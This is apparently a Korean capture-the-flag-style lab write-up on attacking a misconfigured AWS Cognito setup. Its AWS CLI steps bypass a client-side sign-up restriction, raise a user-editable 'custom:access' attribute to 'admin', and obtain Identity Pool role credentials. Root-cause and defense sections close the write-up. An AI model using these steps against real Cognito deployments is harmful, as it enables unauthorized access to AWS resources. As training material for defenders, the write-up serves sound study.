

# 10. Vulnerable Cognito

- 난이도: Moderate
- 핵심: Client-side 가입 제한과 사용자가 수정 가능한 권한 Attribute를 우회해 Cognito Identity Pool의 AWS Role을 얻습니다.

## Attack Path



## 1. Client-side 제한 확인

가입 화면은 특정 Email Domain만 허용하지만 검증 Logic이 Browser JavaScript에만 있습니다. User Pool API를 직접 호출하면 Server-side에서 같은 제한을 강제하지 않습니다.

Web Source에서 공개 식별자를 확인합니다.

```bash
curl -sS <LAB_START_URL> |
  rg 'UserPoolId|ClientId|IdentityPoolId|region'
```

User Pool ID, Client ID와 Identity Pool ID는 Client Application이 Cognito와 통신하기 위해 포함하는 식별자이며 그 자체가 Secret은 아닙니다.

## 2. API로 가입·확인

```bash
aws cognito-idp sign-up \
  --client-id <CLIENT_ID> \
  --username <LAB_EMAIL> \
  --password '<LAB_PASSWORD>' \
  --user-attributes Name=email,Value=<LAB_EMAIL> \
  --region <REGION> \
  --no-sign-request

aws cognito-idp confirm-sign-up \
  --client-id <CLIENT_ID> \
  --username <LAB_EMAIL> \
  --confirmation-code <CONFIRMATION_CODE> \
  --region <REGION> \
  --no-sign-request
```

확인 가능한 Lab Email만 사용하고 Repository에는 기록하지 않습니다.

## 3. Token과 현재 Attribute 확인

```bash
AUTH_JSON="$(aws cognito-idp initiate-auth \
  --auth-flow USER_PASSWORD_AUTH \
  --client-id <CLIENT_ID> \
  --auth-parameters 'USERNAME=<LAB_EMAIL>,PASSWORD=<LAB_PASSWORD>' \
  --region <REGION> \
  --no-sign-request)"

ACCESS_TOKEN="$(printf '%s' "$AUTH_JSON" |
  jq -r '.AuthenticationResult.AccessToken')"

aws cognito-idp get-user \
  --access-token "$ACCESS_TOKEN" \
  --region <REGION> \
  --no-sign-request
```

Scenario의 `custom:access` Attribute는 처음 `reader`지만 App Client가 사용자의 수정까지 허용합니다.

```bash
aws cognito-idp update-user-attributes \
  --access-token "$ACCESS_TOKEN" \
  --user-attributes Name=custom:access,Value=admin \
  --region <REGION> \
  --no-sign-request
```

변경 후 다시 로그인해 새 ID Token을 받습니다. 기존 Token은 변경 전 Claim을 담고 있기 때문입니다.

## 4. Identity Pool에서 임시 자격 증명 받기

```bash
PROVIDER="cognito-idp.<REGION>.amazonaws.com/<USER_POOL_ID>"

IDENTITY_ID="$(aws cognito-identity get-id \
  --identity-pool-id <IDENTITY_POOL_ID> \
  --logins "${PROVIDER}=<NEW_ID_TOKEN>" \
  --region <REGION> \
  --no-sign-request \
  --query IdentityId \
  --output text)"

aws cognito-identity get-credentials-for-identity \
  --identity-id "$IDENTITY_ID" \
  --logins "${PROVIDER}=<NEW_ID_TOKEN>" \
  --region <REGION> \
  --no-sign-request
```

반환되는 Access Key, Secret Key와 Session Token은 짧은 수명의 AWS 자격 증명입니다. 값은 출력·Commit하지 않고 임시 Shell에서만 사용해 `sts:GetCallerIdentity`로 Role을 확인합니다.

## Root Cause

- 가입 Domain 제한이 Client-side에만 있었습니다.
- 권한 결정에 쓰는 Custom Attribute를 사용자가 수정할 수 있었습니다.
- Identity Pool Role Mapping이 조작된 Claim을 신뢰했습니다.
- Authenticated Role의 AWS 권한 범위가 넓었습니다.

## Defense

- 가입 정책과 권한 검사를 Server-side Trigger·Backend에서 강제합니다.
- 사용자 쓰기 가능 Attribute와 관리용 Authorization Attribute를 분리합니다.
- Token의 Signature, Issuer, Audience, 만료와 Claim을 검증합니다.
- Identity Pool Role Mapping과 IAM Role을 최소 권한으로 구성합니다.
- Attribute 변경과 비정상적인 Identity Credential 발급을 Monitoring합니다.
